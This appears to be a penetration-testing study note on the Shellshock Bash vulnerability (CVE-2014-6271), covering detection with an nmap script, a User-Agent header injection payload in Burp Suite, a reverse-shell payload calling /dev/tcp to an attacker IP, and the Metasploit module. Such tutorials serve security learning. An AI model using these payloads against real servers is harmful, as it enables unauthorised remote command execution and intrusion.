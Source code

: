 # Vulnerability Analysis: Shellshock

## CVE-2014-6271 - Shellshock

* Shellshock (CVE-2014-6271) is the name given to a family of vulnerabilities in the Bash shell (since V1.3) that allow an attacker to execute remote arbitrary commands via Bash, consequently allowing the attacker to obtain remote access to the target system via a reverse shell.

## How it works

* The Shellshock vulnerability is caused by a vulnerability in Bash, whereby Bash mistakenly executes trailing commands after a series of characters: () {:;};.&#x20;
* This vulnerability only affects Linux as Windows does not use utilize Bash as it is not a \*Nix based operating system.&#x20;
* In the context of remote exploitation, Apache web servers configured to run CGI scripts or .sh scripts are also vulnerable to this attack.&#x20;
* CGI (Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the Linux system, after which the output is displayed to the client.

## Shellshock Exploitation

* In order to exploit this vulnerability, you will need to locate an input vector or script that allows you to communicate with Bash.&#x20;
* In the context of an Apache web server, we can utilize any legitimate CGI scripts accessible on the web server.&#x20;
* Whenever a CGI script is executed, the web server will initiate a new process and run the CGI script with Bash.&#x20;
* This vulnerability can be exploited both manually and automatically with the use of an MSF exploit module.

## Practical Demo

### Manual Exploitation

* <mark style="color:yellow;">nmap -sV targetIP --script=http-shellshock --script-args=http-shellshock.uri=locationof cgiscript</mark>
  * This command tells you if the target is vulnerable to Shellshock vulnerability

### BurpSuite

Enable the proxy, intercept has to be on.

For this vulnerability we will modify the "<mark style="color:red;">User-Agent</mark>" header.

Send the request to the repeater.

<mark style="color:purple;">NOTE:</mark> FoxyProxy Extension on Chrome is really useful

#### Modified request

* User Agent= " '<mark style="color:yellow;">() { :; }; echo; echo;</mark>' /bin/bash -c 'insert here the commands to run'"
  * The yellow highlighted character are necessary to trick bash to executing the commands after
  * <mark style="color:purple;">NOTE:</mark> Commands to be executed have to be inside single quotes

#### Reverse shell from shellshock

Open a listener port with netcat

Then execute the malicious code that gives you a everse shell on the target, with the shellshock vuln:

* User Agent= " '<mark style="color:yellow;">() { :; }; echo; echo;</mark>' /bin/bash -c 'bash -i>&/dev/tcp/attackerip/receiverport 0>&1'

### MSF Module

Module used:

* "<mark style="color:yellow;">exploit/multi/http/apache\_mod\_cgi\_bash\_env\_exec</mark>"

Options to set

Target IP

Target Port

TARGETURI
